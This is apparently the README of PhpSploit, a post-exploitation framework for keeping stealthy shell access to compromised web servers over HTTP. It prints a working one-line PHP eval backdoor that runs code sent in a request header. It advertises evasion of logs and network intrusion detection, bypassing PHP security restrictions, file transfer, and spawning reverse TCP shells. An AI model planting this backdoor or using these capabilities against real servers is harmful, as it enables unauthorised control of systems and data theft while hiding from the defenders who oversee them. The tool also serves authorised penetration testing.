 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

---------------------------------------------------------

#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
valid client HTTP requests and web server's responses, tunneled through
a tiny **polymorphic backdoor**:
```php
<? @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

#### Features ####

- More than 20 plugins to automate post-exploitation tasks:
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

- Nearly invisible by log analysis and NIDS signature detection
- Safe-mode and common PHP security restrictions bypass
- Communications are hidden in HTTP Headers
- Loaded payloads are obfuscated to bypass NIDS
- Multi-request support for large payloads
- Highly configurable through dynamic settings engine
- HTTP/HTTPS Proxy support
- And even more...

#### Example #####
![][picture]

---
[picture]: https://raw.githubusercontent.com/nil0x42/phpsploit/destiny/data/img/phpsploit-demo.png
